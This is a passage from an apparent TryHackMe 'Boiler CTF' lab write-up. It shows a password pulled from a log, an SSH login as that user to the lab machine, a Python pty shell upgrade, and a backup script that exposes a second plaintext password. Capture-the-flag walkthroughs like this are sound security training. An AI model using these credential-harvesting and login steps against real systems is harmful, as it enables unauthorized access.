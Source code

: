 Focus on the third line from the log → There is a creds of a user `basterd` with the password:

```tsx
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
```

**The interesting file name in the folder?**

```
log.txt
```

## Gain Access

Now we have the password of user `basterd` → It’s time to **\*\***ssh**\*\*** to the target:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/BoilerCTF]
└─$ ssh basterd@10.10.89.79 -p 55007
The authenticity of host '[10.10.89.79]:55007 ([10.10.89.79]:55007)' can't be established.
ED25519 key fingerprint is SHA256:GhS3mY+uTmthQeOzwxRCFZHv1MN2hrYkdao9HJvi8lk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.89.79]:55007' (ED25519) to the list of known hosts.
basterd@10.10.89.79's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.

Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ id
uid=1001(basterd) gid=1001(basterd) groups=1001(basterd)
```

**\*\*\*\***Note**\*\*\*\***: Remember to define the specific port `55007` because the default port for **\*\***ssh**\*\*** service (`22`) does not open.

I export the interactive shell for comfortable view with `python`:

```tsx
$ python3 -c "import pty;pty.spawn('/bin/bash')"
basterd@Vulnerable:~$
```

Take a look at the current directory and you would simply find the **bash** file named `backup.sh`:

```bash
basterd@Vulnerable:~$ ls -l
total 4
-rwxr-xr-x 1 stoner basterd 699 Aug 21  2019 backup.sh
basterd@Vulnerable:~$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log

DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

```